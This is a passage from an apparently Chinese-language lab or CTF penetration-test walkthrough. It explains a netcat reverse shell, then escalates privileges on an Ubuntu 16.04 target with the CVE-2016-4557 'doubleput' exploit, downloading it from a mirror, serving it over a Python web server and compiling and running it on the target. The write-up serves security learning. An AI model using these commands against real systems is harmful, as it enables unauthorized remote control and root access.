```bash
  - `nc 192.168.197.128 4488`：使用 netcat 命令连接到 IP 地址为 `192.168.197.128`，端口为 `4488` 的远程主机。
  - `>`：重定向符，将 netcat 命令的输出重定向到文件 `/tmp/f` 中。

综合起来，这个命令的目的是在目标系统上创建一个反向 shell 连接，将本地主机上的命令通过网络发送到目标主机，同时也将目标主机上的命令输出返回到本地主机上。这样，攻击者可以在目标系统上执行任意命令，并与目标系统进行交互。

需要注意的是，这种行为是非常危险的，只能在合法授权的情况下使用，否则可能违反法律规定并导致严重后果。
```
```bash
lsb_release -a
uname -a
```
还不是被我连上了,改下交互,查看版本
![13](/assets/13.png)



---

# 后期-提权(系统漏洞)

使用 searchsploit 找找这个版本的漏洞

```bash
searchsploit -w ubuntu 16.04 4.4.x
```
![14](/assets/14.png)

存在提权漏洞 CVE-2016-4557

找个 EXP 用用
![15](/assets/15.png)

```bash
apt install -y libfuse-dev
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/blob/main/bin-sploits/39772.zip

注意：这里访问源地址是访问不到的，源地址已经搬迁了，访问我这个gitlab
```

EXP 传给靶机,kali 启个 web

```
python -m SimpleHTTPServer 80
```

靶机上下载,并运行

```
wget 192.168.197.147/39772.zip
unzip 39772.zip && cd 39772 && tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit && sh compile.sh
./doubleput
```